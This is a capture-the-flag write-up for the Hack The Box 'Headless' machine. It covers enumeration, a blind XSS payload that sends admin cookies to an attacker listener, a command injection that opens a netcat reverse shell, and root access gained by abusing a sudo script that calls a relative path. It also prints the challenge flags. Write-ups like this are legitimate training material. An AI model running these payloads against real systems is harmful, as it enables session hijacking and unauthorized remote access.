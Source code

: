 # Hack The Box - Headless (10.10.11.8)

## 🧠 Summary

**Headless** is an easy Linux machine hosted on Hack The Box. It demonstrates practical exploitation via:
- Blind XSS using the **User-Agent** header
- Admin cookie theft and dashboard access
- Command injection for reverse shell
- Privilege escalation through misconfigured sudo + script path abuse

---

## 🔍 Enumeration

### 🔹 Nmap

```bash
nmap -p- headless.htb --min-rate 5000
nmap -p 5000,22 -sC -sV headless.htb -oN nmap_alert
```

**Findings:**
- Port 5000: Werkzeug server (Python)
- Port 22: OpenSSH 9.2p1

---

## 🌐 Web Analysis

- Site displays “coming soon” message at `/`
- `/support` contact form present
- Submission with `<script>` triggers WAF-style "hacking attempt" warning

---

## 🚪 Gobuster Discovery

While testing XSS in the form, run Gobuster in background to enumerate paths:

```bash
gobuster dir -u http://headless.htb:5000 -w /usr/share/wordlists/dirb/big.txt
```

**Discovery:**
```
/dashboard            (Status: 500)
```

---

## 🧪 Blind XSS via User-Agent

### Step 1: Test XSS

```bash
User-Agent: <script>alert(1)</script>
```

### Step 2: Trigger data exfil

```js
<script>
var ink=new Image(); 
ink.src="http://10.10.14.12:4444/?cookie="+btoa(document.cookie);
</script>
```

### Step 3: Listener

```bash
nc -lvnp 4444
```

### Output:

```
GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=
```

Decode:

```bash
echo "aXNf..." | base64 -d
# is_admin=...
```

---

## 🔑 Cookie Theft & Dashboard Access

- Paste stolen cookie via dev tools > Storage > Cookies
- Reload `/dashboard` — now accessible

---

## 💥 Command Injection → Reverse Shell

### Payload:

```bash
date=2023-09-15;nc 10.10.14.12 1334 -e /bin/bash
```

### Listener:

```bash
nc -lvnp 1334
```

### Stabilize shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
ctrl+Z
stty raw -echo; fg; reset
```

---

## 🏁 User Flag

```bash
cat /home/dvir/user.txt
98199ec69a2d999bffd3147052096f35
```

---

## ⬆️ Privilege Escalation

### `sudo -l` Output:

```bash
(ALL) NOPASSWD: /usr/bin/syscheck
```

### Read syscheck script:

```bash
cat /usr/bin/syscheck
```

### Exploit via missing `initdb.sh`:

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh
chmod +x /tmp/initdb.sh
cd /tmp
sudo syscheck
```

### Now root!

```bash
whoami
root
cat /root/root.txt
bd2d4eb12d06b81cc888cef32e370f68
```

---

## 🧠 Lessons Learned

- XSS in headers can be powerful for stealing cookies
- `sudo -l` is crucial post-exploitation
- Poor script hygiene (like `./initdb.sh`) leads to easy root
- Gobuster helps uncover hidden paths like `/dashboard`

---

*Writeup by [inksec](https://github.com/inkedqt)*

